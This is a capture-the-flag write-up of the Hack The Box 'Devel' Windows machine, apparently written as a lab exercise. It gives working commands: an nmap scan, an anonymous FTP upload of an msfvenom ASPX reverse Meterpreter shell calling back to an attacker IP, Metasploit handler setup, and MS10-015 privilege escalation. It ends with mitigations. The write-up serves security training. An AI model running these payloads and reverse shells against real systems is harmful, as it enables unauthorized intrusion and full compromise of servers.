










# 🖥️ Hack The Box - Devel | Windows Penetration Testing

---


<p align="center">
  
</p>

🔗 [Hack The Box Machine - Devel](https://app.hackthebox.com/machines/Devel?sort_by=created_at&sort_type=desc)


---


## 📌 Overview

| Field | Details |
|---|---|
| Platform | Hack The Box |
| Operating System | Windows |
| Difficulty | Easy |
| Focus | Service Enumeration, File Upload, Remote Code Execution, Windows Privilege Escalation |
| Key Techniques | Anonymous FTP, IIS Web Root Abuse, ASPX Payload Execution, Local Privilege Escalation |
| Tools | Nmap, FTP, msfvenom, Metasploit |

## 🧭 Attack Path

**Service Enumeration → Anonymous FTP → IIS Web Root Access → ASPX Payload Upload → Remote Code Execution → Local Privilege Escalation → SYSTEM**


---


## 📖 Introduction


This writeup documents the exploitation process of the Hack The Box **Devel** machine, a Windows target exposing insecure FTP and IIS web server configurations.

The objective of this challenge was to identify exposed services, gain initial access through arbitrary file upload, and escalate privileges to achieve full system compromise.

The attack path involved abusing anonymous FTP access to upload a malicious ASPX payload into the IIS web root directory, obtaining a reverse Meterpreter shell through the web application, and leveraging a vulnerable Windows local privilege escalation vulnerability to gain `NT AUTHORITY\SYSTEM` privileges.

---

## 🔎 Enumeration

An initial Nmap scan was performed against the target system to identify exposed services, detect service versions, and execute default enumeration scripts.

```bash
nmap -sV -sC -T4 10.129.167.91
```





The scan revealed two exposed services:

- FTP (`21/tcp`) running Microsoft FTP Service
- HTTP (`80/tcp`) running Microsoft IIS 7.5

Nmap enumeration also confirmed that anonymous authentication was enabled on the FTP service:

- `ftp-anon: Anonymous FTP login allowed`

This misconfiguration allowed unauthenticated access to the FTP server, providing the ability to browse and upload files to the web server directory.

Additionally, the presence of Microsoft IIS 7.5 suggested that ASPX files could potentially be executed by the web application, making arbitrary file upload a viable method for remote code execution.

---

## 📂 FTP Enumeration

Anonymous access to the FTP service was obtained using the `anonymous` account.

```bash
ftp 10.129.167.91
```





After successful authentication, the contents of the FTP server were enumerated:

- `iisstart.htm`
- `welcome.png`

The presence of `iisstart.htm` suggested that the FTP service was pointing directly to the IIS web root directory.

Because Microsoft IIS 7.5 supports execution of ASPX applications, uploading a malicious ASPX payload became a viable method to achieve remote code execution on the target system.

---

## 💥 Exploitation

A malicious ASPX reverse shell payload was generated using `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.83 LPORT=4444 -f aspx > shell.aspx
```




The payload was uploaded to the FTP server through the anonymous FTP session:

```bash
put shell.aspx
```




After confirming that the file was successfully uploaded, a Metasploit multi/handler listener was configured to receive the reverse Meterpreter connection.

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.17.83
set LPORT 4444
run
```





The uploaded ASPX payload was executed by accessing the file through the IIS web server:

```text
http://10.129.167.91/shell.aspx
```





Once the ASPX payload was executed, a reverse Meterpreter session was established on the target system.





Initial access was obtained under the following service account:

```text
IIS APPPOOL\Web
```

---

## ⬆️ Privilege Escalation

To identify potential local privilege escalation vectors, the `local_exploit_suggester` Metasploit module was executed against the active Meterpreter session.

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 2
run
```


The enumeration results suggested that the target system was vulnerable to the following local privilege escalation exploit:

```text
exploit/windows/local/ms10_015_kitrap0d
```





The local_exploit_suggester module identified MS10-015 (KiTrap0D) as a potentially applicable privilege escalation vector for the target system.


The exploit module was configured using the existing Meterpreter session:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 2
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.17.83
set LPORT 5555
run
```




Successful exploitation resulted in a new Meterpreter session running with elevated privileges:





```text
NT AUTHORITY\SYSTEM
```

This level of access provided complete administrative control over the target system.

---

## 📌 Conclusion

This machine demonstrated how insecure service configurations and outdated systems can be chained together to achieve full system compromise.

Anonymous FTP access exposed the IIS web root directory, allowing arbitrary ASPX file upload and remote code execution through the web server. After obtaining an initial foothold as the `IIS APPPOOL\Web` service account, local privilege escalation techniques were used to gain `NT AUTHORITY\SYSTEM` privileges.

Devel highlights the risks associated with improperly configured file transfer services, executable web content, and unpatched Windows systems exposed to untrusted networks.


---


## 🧠 Key Takeaways

- Anonymous write access to a directory served by a web server can turn a simple service misconfiguration into remote code execution.
- Initial compromise does not always require a complex software vulnerability; insecure service configuration may be enough to obtain a foothold.
- Outdated and unpatched systems can allow a low-privileged compromise to escalate into full SYSTEM access.
- Automated exploitation tools are most useful when combined with system enumeration and validation of the target conditions.


---


## ⚠️ Impact

Successful exploitation of the target system resulted in full compromise of the Windows server.

An attacker was able to:

- Access the FTP service anonymously
- Upload arbitrary files to the IIS web root directory
- Achieve remote code execution through a malicious ASPX payload
- Obtain an interactive Meterpreter session
- Escalate privileges to `NT AUTHORITY\SYSTEM`

With SYSTEM-level privileges, an attacker would have complete administrative control over the server, including the ability to access sensitive data, modify system configurations, maintain persistence, or pivot to other systems within the network.

---

## 🛡️ Mitigation

Several security measures could prevent the attack path demonstrated in this machine:

- Disable anonymous FTP access unless strictly required.
- Prevent FTP users from writing files directly into the IIS web root.
- Restrict execution of user-controlled files in web-accessible directories.
- Apply security patches and maintain supported operating system versions.
- Apply the principle of least privilege to service accounts.
- Segment exposed services and restrict unnecessary network access.
- Monitor web directories for unauthorized file uploads or modifications.

Applying these controls would significantly reduce the risk of arbitrary file upload, remote code execution, and privilege escalation attacks.

